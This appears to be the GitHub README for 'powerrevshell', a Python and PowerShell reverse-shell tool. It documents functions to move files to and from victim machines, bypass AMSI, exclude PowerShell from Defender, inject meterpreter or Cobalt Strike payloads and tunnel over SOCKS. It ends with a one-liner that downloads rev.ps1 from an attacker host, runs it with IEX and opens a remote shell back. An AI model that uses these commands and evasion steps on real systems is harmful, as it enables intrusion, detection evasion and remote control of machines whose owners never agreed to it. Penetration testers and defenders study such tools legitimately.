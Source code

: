 # Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start](https://user-images.githubusercontent.com/82824055/170969038-c81c54a0-721b-44f5-835b-86d11840211f.png)

# Optional argument:
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f &emsp;&emsp;&emsp;&emsp;&emsp;&emsp; smb folder for transfer and execute funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i attacker ip    &emsp;&nbsp;    Enter your local IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If port are being used it kill the process to force the exexcution.\

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option.

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines, to prevent data loss, on each message, are sent support text and md5sum to know if the actual file option are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload can be meterpreter or cobalt strike...\
The paylaod must be a cs file.

```
payload <payload.cs>
```

For the socks functionality this work [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy) is being used.

### socks-start

Socks-start start a socks proxy to your machine.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by closing the powershell process, if the command exclude was used it will delete the exclusion also if it was started a socks proxy it will kill it before closing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1') IEX; Send-Shell -i <IP> -p <ShellPort>
```
